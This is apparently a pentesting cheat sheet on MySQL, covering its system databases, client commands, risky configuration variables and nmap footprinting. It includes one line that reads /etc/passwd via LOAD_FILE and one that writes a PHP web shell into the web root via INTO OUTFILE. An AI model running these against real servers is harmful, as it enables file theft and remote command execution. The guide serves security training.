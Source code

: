# MySQL

## About

<mark style="color:red;">**MySQL**</mark> is an open-source SQL <mark style="color:purple;">**relational database**</mark> management system developed and supported by Oracle. A database is simply a structured collection of data organized for easy use and retrieval. Default MySQL port is <mark style="color:yellow;">**3306**</mark>. The most important databases fot the MySQL are the <mark style="color:green;">**`system schema (sys)`**</mark> and <mark style="color:green;">**`information schema (information_schema)`**</mark>. The **system schema** contaions tables, information, and metadata necessary for management. The **information schema** contains metadata which mainly retrieved from the system **schema database**.

## Databases

**MySQL** has default system databases that can help us understand the structure of all the databases that may be hosted on a target server.

| Database                                                   | Description                                                           |
| ---------------------------------------------------------- | --------------------------------------------------------------------- |
| <mark style="color:green;">**`mysql`**</mark>              | Contains tables with required info for the server                     |
| <mark style="color:green;">**`information_schema`**</mark> | Database metadata                                                     |
| <mark style="color:green;">**`performance_schema`**</mark> | Low level monitoring MySQL Server execution                           |
| <mark style="color:green;">**`sys`**</mark>                | Objects that helps devs to use data from performance\_schema database |

## MySQL Useful Commands

| Command                                                                                                                                                             | Description                                                                                           |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------- |
| <mark style="color:green;">**`mysql -u <user> -p<password> -h <IP address>`**</mark>                                                                                | Connect to the MySQL server. There should **not** be a space between the '-p' flag, and the password. |
| <mark style="color:green;">**`show databases;`**</mark>                                                                                                             | Show all databases                                                                                    |
| <mark style="color:green;">**`use <database>;`**</mark>                                                                                                             | Select one of the existing databases                                                                  |
| <mark style="color:green;">**`show tables;`**</mark>                                                                                                                | Show all available tables in the selected database                                                    |
| <mark style="color:green;">**`show columns from <table>;`**</mark>                                                                                                  | Show all columns in the selected database                                                             |
| <mark style="color:green;">**`select * from <table>;`**</mark>                                                                                                      | Show everything in the desired table                                                                  |
| <mark style="color:green;">**`select * from <table> where <column> = "<string>";`**</mark>                                                                          | Search for needed `string` in the desired table                                                       |
| <mark style="color:green;">**`select LOAD_FILE("/etc/passwd");`**</mark>                                                                                            | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ Reading local files                             |
| <p></p><pre class="language-sql"><code class="lang-sql">SELECT "&#x3C;?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
</code></pre> | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ Writing local files                             |

## CMD Interacting

#### Linux

```bash
mysql -u carni17 -psuperkek123 -h 13.13.13.13
```

#### Windows

```bash
mysql.exe -u carni17 -psuperkek123 -h 13.13.13.13
```

## Dangerous Settings

#### **Config File Location**

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'
```

* <mark style="color:green;">**`user`**</mark> - Sets which user the MySQL service will run as
* <mark style="color:green;">**`password`**</mark> - Sets the password for the MySQL user
* <mark style="color:green;">**`admin_address`**</mark> - The IP address on which to listen for TCP/IP connections on the administrative network interface
* <mark style="color:green;">**`debug`**</mark> - This variable indicates the current debugging settings
* <mark style="color:green;">**`sql_warnings`**</mark> - This variable controls whether single-row INSERT statements produce an information string if warnings occur
* <mark style="color:green;">**`secure_file_priv`**</mark> - This variable is used to limit the effect of data import and export operations. If empty - variable have no effect. If NULL - server disables import/export. If directory - import/export is limited to directory.

#### Show variable

```sql
show variables like "secure_file_priv";
```



## Tips2Hack

1. Nmap Basic Footprinting

```bash
sudo nmap 13.13.13.13 -sV -sC -p3306 --script mysql*
```

***
